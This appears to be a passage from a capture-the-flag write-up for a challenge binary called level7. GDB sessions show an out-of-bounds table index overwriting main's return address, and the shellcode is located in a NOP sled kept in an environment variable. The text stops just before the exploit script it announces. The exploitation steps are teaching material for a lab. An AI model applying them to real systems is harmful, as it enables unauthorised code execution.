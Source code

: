 Start GDB to inspect the program and setting a breakpoint at the `return` of `main`.

```bash
icyfire@razor level7 → gdb /var/challenge/level7/7
Reading symbols from /var/challenge/level7/7...
(No debugging symbols found in /var/challenge/level7/7)
(gdb) disas main
Dump of assembler code for function main:
...
   0x08048629 <+246>:	jle    0x8048603 <main+208>
   0x0804862b <+248>:	mov    $0x0,%eax
   0x08048630 <+253>:	leave
   0x08048631 <+254>:	ret
End of assembler dump.
(gdb) break *0x08048631
Breakpoint 1 at 0x8048631
```

Run the program with `11` as first argument and examine the top of the stack. Since the breakpoint is at `ret` instruction, the top of the stack consists of the return address.

```bash
(gdb) run 11 0
Starting program: /var/challenge/level7/7 11 0
Updating table value at index 11 with 0: previous value was -136388891
The updated table is:
0: 2
1: 3
2: 5
3: 7
4: 11
5: 13
6: 17

Breakpoint 1, 0x08048631 in main ()
(gdb) stack
Undefined command: "stack".  Try "help".
(gdb) x/4wx $esp
0xfffe4c4c:	0x00000000	0x00000003	0xfffe4ce4	0xfffe4cf4
```

We can see that the return address got overwritten with the value that we supplied in the arguments. Next we can examine the evironment of the program to find the address of the shell code that we inserted.

```bash
(gdb) x/64s *((char **) environ)
...
0xfffe57ef:	"_SHELLCODE=", '\220' <repeats 189 times>...
0xfffe58b7:	'\220' <repeats 200 times>...
0xfffe597f:	'\220' <repeats 200 times>...
...
```

We can choose an address in the middle of the NOP sled to overwrite the return address with. With the above information the program can be exploited with the following python script.
